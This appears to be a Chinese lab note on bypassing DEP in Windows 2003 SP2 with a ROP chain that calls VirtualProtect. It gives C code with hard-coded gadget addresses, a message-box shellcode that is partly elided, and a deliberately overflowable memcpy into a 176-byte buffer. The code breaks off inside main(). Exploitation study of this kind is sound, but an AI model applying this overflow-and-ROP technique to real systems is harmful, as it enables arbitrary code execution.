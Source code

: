 ### 环境

windows 2003 sp2

EDP Optout

VC++6.0   关闭GS 优化选项 SafeSEH

```c
//关闭 safeSEH ， Visual Studio 2003 及后续版本中是默认启用
BOOL APIENTRY DllMain( HANDLE hModule,DWORD ul_reason_for_call, LPVOID lpReserved){
    return TRUE;
}
```

### 思路

如果我们能够按照如下参数布置好栈帧的话就可以将 shellcode 所在内存区域设置为可执行模式。

```c
BOOL VirtualProtect( 
    shellcode 所在内存空间起始地址, 
    shellcode 大小,
	0x40,
	某个可写地址
);
```

1. 参数中包含 0x00，strcpy 在复制字符串的时候会被截断，改为攻击 memcpy 函数。
2. 对 shellcode 所在内存空间起始地址的确定。

### 代码

```c
#include<stdlib.h>
#include<string.h>
#include<stdio.h>
#include<windows.h>
char shellcode[]= 
    		"\x90\x90\x90\x90....."
    		"\x8A\x17\x84\x7C"// ④pop eax ret
            "\x0A\x1A\xBF\x7C"// ⑤pop pop pop ret
            "\xBA\xD9\xBB\x7C"// ① 修正EBP ， 覆盖ret  push esp pop ebp retn 4
            "\x8B\x17\x84\x7C"// ②ret
            "\x90\x90\x90\x90"
            "\xBF\x7D\xC9\x77"// ③push esp jmp eax
            "\xFF\x00\x00\x00"//函数参数， 修改内存的大小
            "\x40\x00\x00\x00"//可读可写可执行内存属性代码
            "\xBF\x7D\xC9\x77"// ⑥push esp jmp eax
            "\x90\x90\x90\x90"
            "\x90\x90\x90\x90"
            "\xE8\x1F\x80\x7C"// ⑦修改内存属性函数压入参数的地址  注意retn 0x10
            "\x90\x90\x90\x90"
            "\xA4\xDE\xA2\x7C"// ⑧jmp esp
            "\x90\x90\x90\x90"
            "\x90\x90\x90\x90"
            "\x90\x90\x90\x90"
            "\x90\x90\x90\x90"
			"\xFC\x68\x6A\x0A ......" // 弹框shellcode
void test(){
       char str[176];
       memcpy(str,shellcode,420);
} 
int main() {
       HINSTANCE hInst = LoadLibrary("shell32.dll");
       char temp[200];
       test();
```
